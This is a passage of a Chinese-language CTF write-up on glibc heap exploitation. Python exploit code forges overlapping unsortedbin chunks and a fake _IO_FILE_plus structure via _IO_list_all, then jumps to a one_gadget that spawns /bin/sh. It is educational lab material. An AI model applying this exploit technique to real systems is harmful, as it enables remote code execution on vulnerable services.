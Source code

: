 &nbsp;&nbsp;&nbsp;&nbsp;<font size=2>有了libc和堆的地址后，我们就可以开始尝试制造重叠堆块了，首先我们分配一系列堆块，我在这里释放了第二个堆块使之进入unsortedbin，然后因为unsortedbin是FIFO的特性，所以在login前先释放一个相应位置的chunk，写上align size用来绕过unsortedbin的size检查。如果不知道的话可以看我的how2pwn都有demo。</font></br>



```python
add(0x200)      # 0
add(0x100)      # 1

for i in range(6):
    add(0x15f0)  # 2->7

dele(6) # free first cause FIFO
dele(1)
login('a'*8+p64(chunk_base+0x211-8))

# write a size&0xfffffffffffffff8=0x6568 to bypass unsortedbin size check
add(0x15f0,'a'*0xc48+p64(0x6568)) # 1
dele(7)

add(0x200)  # 6


add(0x15f0,'a'*0x100)   # 7 overlap with 2
add(0x15f0,'a'*0x100)   # 8 overlap with 3
add(0x15f0,'a'*0x100)   # 9

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>然后我们释放index为3和8的堆块就得到了两个重叠的unsrotedbin，malloc地址低的一个，然后对其写入就可以覆写第二个unsortedbin的信息，我们修改其size为0x61，使其被加入smallbin的index6处，然后修改bk为\_IO_list_all，并在这个bin内伪造\_IO_FILE_plus结构，写_mode=0，写\_IO_write_ptr>\_IO_write_base（不懂的看hitcon2016的那题），最后分配一个堆块把这个unsortedbin加入smallbin就可以完成攻击了：</font></br>



```python
# 2 unsortedbin overlapped
dele(3)
dele(8)

# fake a _IO_FILE_plus structure
payload='b'*0xf8
payload+=p64(0x61)
payload+=p64(0)+p64(_IO_list_all+libc_base-0x10)
payload+=p64(0)+p64(1)
payload+=p64(0)*21+p64(chunk_base+0x1b00)
payload+=p64(0)*3+p64(one_gadget+libc_base)

#gdb.attach(p,gdbscript='b _IO_flush_all_lockp\nc')
add(0x15f0,payload)   # 3

sla(menu,'1')
sla('Pls Input your note size\n',str(0x16f0)) # pwned!
 

p.interactive()

'''
0x45216	execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a	execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL
```